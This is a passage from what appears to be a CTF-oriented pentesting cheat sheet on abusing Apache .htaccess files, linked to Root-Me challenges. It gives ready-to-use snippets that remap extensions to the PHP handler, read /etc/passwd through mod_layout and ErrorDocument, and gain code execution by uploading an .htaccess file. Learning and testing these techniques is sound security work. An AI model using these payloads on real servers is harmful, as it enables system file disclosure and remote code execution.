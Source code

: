 We can add a handler for a specific extension:

```apacheconf!
AddType application/x-httpd-php .php5
AddHandler application/x-httpd-php .php5
```

Or we can replace all handlers for a specific extension:

```apacheconf!
SetHandler application/x-httpd-php .jpg
```
</div><div>

#### htaccess — File Reading

[![php_apache_configuration](../../../../_badges/rootme/web_server/php_apache_configuration.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

If `mod_layout` is present, you can append a file to any request.

```apacheconf!
AddOutputFilter LAYOUT .htaccess
<IfModule mod_layout.c>
	LayoutFooter /etc/passwd
</IfModule>
```

ErrorDocument is always available and can be used to read files:

```apacheconf!
ErrorDocument 404 %{file:/etc/passwd}
```

#### htaccess — Remote Code Execution

[![php_apache_configuration](../../../../_badges/rootme/web_server/php_apache_configuration.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

If we can upload a `.htaccess` file, we can put inside a payload allowing us to reconfigure the Apache server if we were allowed to.

```apacheconf!
php_flag engine on
SetHandler application/x-httpd-php
# <pre><?php echo "hello world!"; ?></pre>
```
</div></div>

<hr class="sep-both">

## Python

<div class="row row-cols-lg-2"><div>
